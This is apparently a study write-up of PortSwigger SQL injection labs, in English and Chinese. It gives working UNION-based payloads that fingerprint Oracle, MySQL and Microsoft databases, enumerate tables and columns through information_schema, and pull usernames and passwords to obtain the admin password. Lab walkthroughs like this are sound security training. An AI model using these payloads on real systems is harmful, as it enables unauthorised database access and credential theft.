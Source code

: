 
**[Lab SQL injection, query the database type and version (Oracle)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)**

1. Find how many columns are there in the table. Add `'ORDER BY num'` to the end of the url and find that there are two columns.
2. Find that the second column has the datatype sting.
3. Add the following query to return the banner of the database.

`'UNION SELECT NULL, banner FROM v$version--`

Result:

 <img src="https://tva1.sinaimg.cn/large/008i3skNgy1gyztugzf0pj30vg09cdgw.jpg" alt="image-20220202203119278" style="zoom:50%;" />

[Lab Query the database and version (MySQL and Microsoft)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

1. First, determine the number of columns of the returned table using `'UNION SELECT NULL, NULL#`. Then we know that there are two columns.
2. Second, find the data type of these columns to see if they are string. By setting each `NULL` to `'a'`, two columns have the same data type of string, so we can use either to perform the SQL injection
3. Get the database version by the following query:`'UNION SELECT @@version, NULL#`

Result: 

<img src="https://tva1.sinaimg.cn/large/008i3skNgy1gyzvkzwpt7j305003a3ya.jpg" alt="image-20220202213128309" style="zoom:50%;" />

#### Listing the content of the database

Most databases (except for Oracle) have views that provide information about the database. For example `information_schema` that contains the table names and column names for each table.

[Lab SQL injection, listing the databases on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

1. 首先还是通过NULL来决定表的每一列的数据类型。`'UNION SELECT NULL, NULL--`
2. 然后查看`information_schema`中的表名都是什么。`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

3. 找到一个user开头的表名，应该就是存放用户信息的，进一步看这个表中有哪些列。`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_tsxwcv'--`

   

   ![image-20220208150439802](https://tva1.sinaimg.cn/large/008i3skNgy1gz6i4f319oj30by02kwec.jpg)![image-20220208150459170](https://tva1.sinaimg.cn/large/008i3skNgy1gz6i4pgcnqj30as03yt8m.jpg)

4. 这样就找到了存放用户名和密码的列。再次请求得到admin的密码即可。`'+UNION+SELECT+username_qvqafc,+password_zecjow+FROM+users_tsxwcv--`

![image-20220208150811298](https://tva1.sinaimg.cn/large/008i3skNgy1gz6i81e4t6j30fs04o3yi.jpg)

#### 在Oracle中的类似操作

在oracle中，只需要进行一些修改即可得到相同的数据。所有表的信息可以从`all_tables`获得，具体列名可以通过以下命令获得：

`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
